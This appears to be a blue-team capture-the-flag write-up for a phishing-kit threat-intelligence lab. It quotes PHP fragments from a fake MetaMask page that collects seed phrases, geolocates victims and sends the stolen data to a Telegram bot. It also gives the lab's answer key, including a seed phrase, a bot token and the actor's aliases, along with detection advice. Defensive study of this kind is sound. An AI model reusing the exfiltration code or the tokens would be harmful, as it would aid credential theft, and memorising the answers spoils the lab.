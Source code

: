 # GrabThePhisher Lab

ategory: [Threat Intel](https://cyberdefenders.org/blueteam-ctf-challenges/?categories=threat-intel)

Tactics: [Initial Access](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=initial-access)[Exfiltration](https://cyberdefenders.org/blueteam-ctf-challenges/?tactics=exfiltration)

Tool: [Text Editor](https://cyberdefenders.org/blueteam-ctf-challenges/?tools=text-editor)

**Scenario**

A decentralized finance (DeFi) platform recently reported multiple user complaints about unauthorized fund withdrawals. A forensic review uncovered a phishing site impersonating the legitimate PancakeSwap exchange, luring victims into entering their wallet seed phrases. The phishing kit was hosted on a compromised server and exfiltrated credentials via a Telegram bot.

Your task is to conduct threat intelligence analysis on the phishing infrastructure, identify indicators of compromise (IoCs), and track the attacker’s online presence, including aliases and Telegram identifiers, to understand their tactics, techniques, and procedures (TTPs).

#### Which wallet is used for asking the seed phrase?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FF8irWEvx8rxgOTggjAYv%2FScreenshot%202025-10-07%20at%207.54.48%E2%80%AFPM.png?alt=media&#x26;token=7578e00a-8efa-4b70-80a0-7645114e601c" alt=""><figcaption></figcaption></figure>

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FEErQKizMSTGeGQAewNPm%2FScreenshot%202025-10-07%20at%207.53.48%E2%80%AFPM.png?alt=media&#x26;token=e67d0b79-4c32-454b-98db-a2eb89bccec4" alt=""><figcaption></figcaption></figure>

Answer **`Metamask`**

#### What is the file name that has the code for the phishing kit?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FSbzX73MJmvLfcRge1j9Q%2FScreenshot%202025-10-07%20at%207.55.54%E2%80%AFPM.png?alt=media&#x26;token=6d501503-87d8-4cc4-b827-1d350e097762" alt=""><figcaption></figcaption></figure>

**Locate the phishing kit’s main PHP files**\
Inside the kit’s directory, look for files like `metamask.php`,

1. When you open **`metamask.php`**, you can see text such as:

   ```php
   Wallet: Metamask
   ```

   and a section of code that handles user input.
2. **Check how the data is processed**\
   The code includes a line like:

   ```php
   $data = $_POST['data'];
   ```

   which means it collects the seed phrase entered by the victim.
3. **Confirm exfiltration**\
   The same file uses a function such as:

   ```php
   sendTel($data);
   ```

   This shows the stolen data (the seed phrase) is sent to a Telegram bot.
4. **Check logging**\
   It also writes the collected data to a local file:

   ```php
   file_put_contents("log/log.txt", $data);
   ```

**Conclusion:**\
The phishing kit specifically asks for the **MetaMask wallet seed phrase** using the `metamask.php` script.

Answer **`metamask.php`**

In which language was the kit written?

The phishing kit is written in **PHP** — the provided file (`metamask.php`) is a server-side PHP script that processes the posted seed phrase, logs it, and calls the Telegram API.&#x20;

Answe **`php`**

#### What service does the kit use to retrieve the victim's machine information?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FtwCHDAyzXfj8nxeCStTI%2FScreenshot%202025-10-07%20at%208.01.02%E2%80%AFPM.png?alt=media&#x26;token=86e718ec-1d28-436e-9447-249addc05e8b" alt=""><figcaption></figcaption></figure>

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']);
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

**What it does:** the script sends the victim’s IP (`$_SERVER['REMOTE_ADDR']`) to `api.sypexgeo.net/json/<IP>` and decodes the JSON response to extract the country and city.

**Note:** this is passive enrichment (geolocation) and can be detected in logs as outbound HTTP requests to `api.sypexgeo.net`.

Answer **`sypexgeo`**\\

#### How many seed phrases were already collected?

**3** seed phrases were collected — each is a 12-word seed phrase.

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FG9bOLilPXfHBJW6Llz9i%2FScreenshot%202025-10-07%20at%208.04.54%E2%80%AFPM.png?alt=media&#x26;token=7fb7d998-a2b8-49e3-8de4-4c1c6b6d75cf" alt=""><figcaption></figcaption></figure>

* There are **3** lines (3 seed phrases).
* Each line contains **12 words** (typical BIP‑39 seed length).
* The most recent entry is line **3**:\
  `father also recycle embody balance concert mechanic believe owner pair muffin hockey`

Answer **`3`**

#### Could you please provide the seed phrase associated with the most recent phishing incident?

Answer **`father also recycle embody balance concert mechanic believe owner pair muffin hockey`**

#### Which medium was used for credential dumping?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2F39ogJHnONJU2rlZos8ZR%2FScreenshot%202025-10-07%20at%208.10.29%E2%80%AFPM.png?alt=media&#x26;token=ba64c430-6384-4322-85cc-7f416c885a7b" alt=""><figcaption></figcaption></figure>

**Two mediums** were used for credential dumping:

1. **Immediate (real‑time) exfiltration via Telegram bot** — the script builds a `https://api.telegram.org/bot<token>/sendMessage?...` request and calls `file_get_contents()` to push the stolen seed to the attacker’s Telegram channel.
2. **Local backup logging** — the script appends the stolen seed to a local file (`log/log.txt`) using `file_put_contents(..., FILE_APPEND)`.

**Evidence (from the PHP you showed):**

* `file_get_contents("https://api.telegram.org/bot".$token."/sendMessage?...")` → Telegram exfil.
* `@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);` → local log backup.

**Immediate recommendations**

* Isolate the host (cut or restrict outbound to `api.telegram.org`), preserve the `log.txt` and `metamask.php` with hashes, and search backups/webroots for other occurrences of `api.telegram.org`, `log.txt`, or `metamask.php`.
* Add detections for HTTP calls to `api.telegram.org` originating from webservers and YARA/grep rules to find `file_put_contents(...log.txt...)` and Telegram token patterns.

Answer **`Telegram`**\\

#### What is the token for accessing the channel?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2F5y1sJn1d03tRVdwjmJoL%2FScreenshot%202025-10-07%20at%208.10.29%E2%80%AFPM.png?alt=media&#x26;token=bba40e22-8d6c-43f2-b056-04638699d33e" alt=""><figcaption></figcaption></figure>

Answer **`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`**\\

#### What is the Chat ID for the phisher's channel?

Answer **`5442785564`**

#### What are the allies of the phish kit developer?

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FrMPSJSc01Xizo0ZErBsv%2FScreenshot%202025-10-07%20at%208.15.35%E2%80%AFPM.png?alt=media&#x26;token=f8d86b4c-7db9-44b8-bf15-23a33d835df2" alt=""><figcaption></figcaption></figure>

The kit names one ally in a code comment: **`j1j1b1s@m3r0`**.

Evidence: that string appears in the comment block at the top of `metamask.php` (the “With love and respect…” comment).

Answer **`j1j1b1s@m3r0`**.

#### What is the full name of the Phish Actor?

The full name of the phishing actor, as retrieved via the Telegram `getChat` API using the bot token and chat ID, is:

**Answer `Marcus Aurelius`**\\

#### What is the username of the Phish Actor?

Answer **`pumpkinboii`**\
\
\
\
[https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/grabthephisher/ \
](https://cyberdefenders.org/blueteam-ctf-challenges/achievements/Napol/grabthephisher/)\
\
\
\\
